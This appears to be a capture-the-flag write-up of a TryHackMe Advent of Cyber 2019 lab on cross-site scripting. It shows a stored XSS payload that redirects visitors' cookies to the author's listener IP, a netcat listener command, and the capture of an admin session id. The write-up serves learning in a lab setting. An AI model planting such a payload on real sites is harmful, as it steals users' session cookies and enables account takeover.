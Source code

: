 # XSS
----


--> we got this page on the 3000 port 

![Pasted image 20210813112804.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-18/Pasted%20image%2020210813112804.png)

--> so Let's register and login 

--> after login we can see some chats and one imput field 

![Pasted image 20210813112858.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-18/Pasted%20image%2020210813112858.png)

--> so i got the payload in the supporting material so i changed it a bit and made my payload 

```html
<script>window.location='http://10.9.3.121:4444/?cookie='+document.cookie</script>
```

--> so Let's add this payload and listen for connection on port 4444

```c
sudo nc -lvnp 4444
```

--> first we will submit the payload and then start the listening 

--> and after some time we got the admin's session id

![Pasted image 20210813113230.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-18/Pasted%20image%2020210813113230.png)
